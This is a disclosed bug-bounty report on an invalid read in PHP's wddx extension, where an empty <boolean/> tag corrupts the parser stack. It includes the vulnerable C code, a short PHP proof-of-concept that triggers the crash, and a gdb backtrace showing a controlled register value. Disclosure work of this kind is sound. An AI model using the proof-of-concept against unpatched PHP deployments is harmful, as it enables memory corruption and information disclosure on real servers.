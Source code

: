 # Invalid read when wddx decodes empty boolean element

## Report Details
- **Report ID**: 188661
- **URL**: https://hackerone.com/reports/188661
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-12-06T09:01:56.225Z
- **Disclosed**: 2019-11-12T09:20:07.865Z

## Reporter
- **Username**: fosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Description
-----------
I have found some vulnerable code in wddx extension. The trouble happens when trying to process 'boolean' tag. If I open <boolean> tag without data, new st_entry item WILL NOT be pushed into stack. When <boolean> tag is closed and stack->top is greater than 1, st_entry item at top of stack WILL be popped out of stack.

Look at following snip code, a new st_entry will be pushed into stack if atts is not NULL. If I open <boolean> tag by using '<boolean/>', 'atts' is NULL.

``` c
static void php_wddx_push_element(void *user_data, const XML_Char *name, const XML_Char **atts)
{
	.....
	} else if (!strcmp((char *)name, EL_BOOLEAN)) {
		int i;

		if (atts) for (i = 0; atts[i]; i++) {
			if (!strcmp((char *)atts[i], EL_VALUE) && atts[i+1] && atts[i+1][0]) {
				ent.type = ST_BOOLEAN;
				SET_STACK_VARNAME;

				ZVAL_TRUE(&ent.data);
				wddx_stack_push((wddx_stack *)stack, &ent, sizeof(st_entry));
				php_wddx_process_data(user_data, atts[i+1], strlen((char *)atts[i+1]));
				break;
			}
		}
	} 
    .....
}
```

Look at the other snip code, I see "boolean" tag is popped and freed without checking anything:

``` c
static void php_wddx_pop_element(void *user_data, const XML_Char *name)
{
	st_entry 			*ent1, *ent2;
	wddx_stack 			*stack = (wddx_stack *)user_data;


	if (!strcmp((char *)name, EL_STRING) || !strcmp((char *)name, EL_NUMBER) ||
		!strcmp((char *)name, EL_BOOLEAN) || !strcmp((char *)name, EL_NULL) ||
	  	!strcmp((char *)name, EL_ARRAY) || !strcmp((char *)name, EL_STRUCT) ||
		!strcmp((char *)name, EL_RECORDSET) || !strcmp((char *)name, EL_BINARY) ||
		!strcmp((char *)name, EL_DATETIME)) {
		wddx_stack_top(stack, (void**)&ent1);
		...

		if (stack->top > 1) {
			stack->top--;
			wddx_stack_top(stack, (void**)&ent2);
            .....
			efree(ent1);
		} else {
			stack->done = 1;
		}
	}
    ....
}
```

Test script
-----------
``` php
<?php
$xml = <<<EOF
<?xml version="1.0" ?>
<wddxPacket version="1.0">
<number>2261634.5098039215</number>
<binary><boolean/></binary>
</wddxPacket>
EOF;
$wddx = wddx_deserialize($xml);
var_dump($wddx);
?>
```

When processing `binary` tag, a `st_entry` which describes `binary` tag is pushed to stack. `<boolean/>` will lead to `st_entry` of `binary` tag is popped out. When processing `</binary>`, `php_wddx_pop_element()` function is called. `php_wddx_pop_element` will take top of stack and use it as a string object, try to decode it. We can use this issue to read anything at anywhere. If this value is not a valid memory address, it will lead to memory corruption.

Below backtrace of gdb will give you details.

```
[-------------------------------------code-------------------------------------]
   0x82cf418 <php_wddx_pop_element+440>:        mov    eax,DWORD PTR [ebx]
=> 0x82cf41a <php_wddx_pop_element+442>:        mov    edx,DWORD PTR [eax+0xc]
   0x82cf41d <php_wddx_pop_element+445>:        add    eax,0x10
   0x82cf420 <php_wddx_pop_element+448>:        mov    DWORD PTR [esp],eax
   0x82cf423 <php_wddx_pop_element+451>:        mov    DWORD PTR [esp+0x4],edx
   0x82cf427 <php_wddx_pop_element+455>:        call   0x82702f0 <php_base64_decode>
[------------------------------------stack-------------------------------------]
0000| 0xbfffbce0 --> 0x89b92d4 ("boolean")
0004| 0xbfffbce4 --> 0xb7870080 --> 0x0
0008| 0xbfffbce8 --> 0x89b8568 --> 0x8931938 --> 0x0
0012| 0xbfffbcec --> 0xb7c66458 (<__GI___libc_malloc+8>:        add    ebx,0x140ba8)
0016| 0xbfffbcf0 --> 0xb7f1e000 --> 0x15adac
0020| 0xbfffbcf4 --> 0xb7d371bf (<__memcpy_ssse3_rep+31>:       add    ebx,0x31501)
0024| 0xbfffbcf8 --> 0xb7f1e000 --> 0x15adac
0028| 0xbfffbcfc --> 0xb7e6409b (<xmlStrndup__internal_alias+75>:       mov    eax,edi)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
php_wddx_pop_element (user_data=0xbfffbf6c, name=<optimized out>) at /root/fuzzer/PHP-7.1/ext/wddx/wddx.c:905
905                             zend_string *new_str = php_base64_decode(
gdb-peda$ bt
#0  php_wddx_pop_element (user_data=0xbfffbf6c, name=<optimized out>) at /root/fuzzer/PHP-7.1/ext/wddx/wddx.c:905
#1  0x082d602b in _end_element_handler (user=0xb7870080, name=0x89b92cd "binary") at /root/fuzzer/PHP-7.1/ext/xml/compat.c:219
#2  0xb7df9302 in xmlParseEndTag1 (ctxt=ctxt@entry=0x89b8568, line=line@entry=0x0) at parser.c:8796
#3  0xb7e01c89 in xmlParseTryOrFinish (ctxt=ctxt@entry=0x89b8568, terminate=terminate@entry=0x1) at parser.c:11743
#4  0xb7e02da3 in xmlParseChunk__internal_alias (ctxt=0x89b8568,
    chunk=chunk@entry=0xb78661f0 "<?xml version=\"1.0\" ?>\r\n<wddxPacket version=\"1.0\">\r\n<number>2261634.5098039215</number>\r\n<binary><boolean/></binary>\r\n</wddxPacket>", size=size@entry=0x83,
    terminate=terminate@entry=0x1) at parser.c:12446
#5  0x082d6336 in php_XML_Parse (parser=parser@entry=0xb7870080,
    data=data@entry=0xb78661f0 "<?xml version=\"1.0\" ?>\r\n<wddxPacket version=\"1.0\">\r\n<number>2261634.5098039215</number>\r\n<binary><boolean/></binary>\r\n</wddxPacket>", data_len=data_len@entry=0x83,
    is_final=is_final@entry=0x1) at /root/fuzzer/PHP-7.1/ext/xml/compat.c:600
#6  0x082d1904 in php_wddx_deserialize_ex (
    value=value@entry=0xb78661f0 "<?xml version=\"1.0\" ?>\r\n<wddxPacket version=\"1.0\">\r\n<number>2261634.5098039215</number>\r\n<binary><boolean/></binary>\r\n</wddxPacket>", vallen=0x83,
    return_value=return_value@entry=0xb7814080) at /root/fuzzer/PHP-7.1/ext/wddx/wddx.c:1095
#7  0x082d1ba7 in zif_wddx_deserialize (execute_data=0xb78140b0, return_value=0xb7814080) at /root/fuzzer/PHP-7.1/ext/wddx/wddx.c:1313
#8  0x0838b6c6 in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER () at /root/fuzzer/PHP-7.1/Zend/zend_vm_execute.h:675
#9  0x0837c322 in execute_ex (ex=0xb7814020) at /root/fuzzer/PHP-7.1/Zend/zend_vm_execute.h:429
#10 0x083cb3bb in zend_execute (op_array=op_array@entry=0xb7865180, return_value=return_value@entry=0x0) at /root/fuzzer/PHP-7.1/Zend/zend_vm_execute.h:474
#11 0x0833bb40 in zend_execute_scripts (type=type@entry=0x8, retval=retval@entry=0x0, file_count=file_count@entry=0x3) at /root/fuzzer/PHP-7.1/Zend/zend.c:1474
#12 0x082dd0cb in php_execute_script (primary_file=primary_file@entry=0xbfffe2b8) at /root/fuzzer/PHP-7.1/main/main.c:2533
#13 0x083cd70a in do_cli (argc=argc@entry=0x3, argv=argv@entry=0x88eca80) at /root/fuzzer/PHP-7.1/sapi/cli/php_cli.c:990
#14 0x0806d544 in main (argc=0x3, argv=0x88eca80) at /root/fuzzer/PHP-7.1/sapi/cli/php_cli.c:1378
#15 0xb7c07943 in __libc_start_main (main=0x806d070 <main>, argc=0x3, ubp_av=0xbffff564, init=0x83d5260 <__libc_csu_init>, fini=0x83d52d0 <__libc_csu_fini>, rtld_fini=0xb7fee700 <_dl_fini>,
    stack_end=0xbffff55c) at libc-start.c:274
#16 0x0806d5d1 in _start ()
gdb-peda$ i r $eax
eax            0x41414141       0x41414141
gdb-peda$
```

## Attachments
No attachments
